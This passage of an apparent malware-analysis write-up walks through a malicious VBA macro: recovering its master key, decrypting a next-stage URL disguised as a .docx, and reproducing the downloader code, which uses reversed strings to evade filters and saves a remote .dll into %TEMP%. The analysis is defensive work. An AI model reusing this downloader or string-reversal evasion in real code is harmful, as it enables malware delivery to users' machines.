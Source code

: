 
We can also get the master key by putting a break at the return for
`TryAllKeys`, and then using their own `BytesToString` function:



    print BytesToString(TryAllKeys)
    fb44099ff229b629



### 2. Decrypt String

With the master key decrypted, the code can now decrypt the url for the
next stage payload:



        ciphertext = Decode64(payload)
        bPlaintext = XorDecryptAndVerifyCRC(masterKey, ciphertext)
        sPlaintext = BytesToString(bPlaintext)

        zzz = sPlaintext



Breaking at this point gives us the next stage:
`https://gdpr-datagroup.com/documents/additional-document-tempalates.docx`.

Unfortunately (though not surprisingly), the link is no longer active.

### 3. Get the Binary

The next block of code gets the binary. While the url indicates this is
a .docx, we'll see it is actually a .dll executable file.



        Dim ampleMacarons
        Dim bStrm
        Dim filename
        Set ampleMacarons = CreateObject(StrReverse("PTTHLMX.tfosorciM"))
        ampleMacarons.Open "GET", zzz, False
        ampleMacarons.Send
        Set dollop = CreateObject(StrReverse("maertS.bdodA"))
        dollop.Type = 1
        dollop.Open
        dollop.Write ampleMacarons.responseBody
        dstPath = Environ$("TEMP") & "\" & namePrefix & "_" & DateDiff("s", #1/1/1970#, Now()) & nameSuffix
        savePath = dstPath
        dollop.savetofile savePath, 2



To avoid filters, this section uses another obfuscation technique,
putting all the strings through a reverse function. These are easy
enough to undo by hand, but may avoid automated filters. The code
creates a `Microsoft.XMLHTTP` object, uses it to issue a get request.
Then, it creates a `Adodb.Stream` objection, which is passes in the
response body, and uses that to save to
`%TEMP%\tialdyos_[timestamp count].dll`.
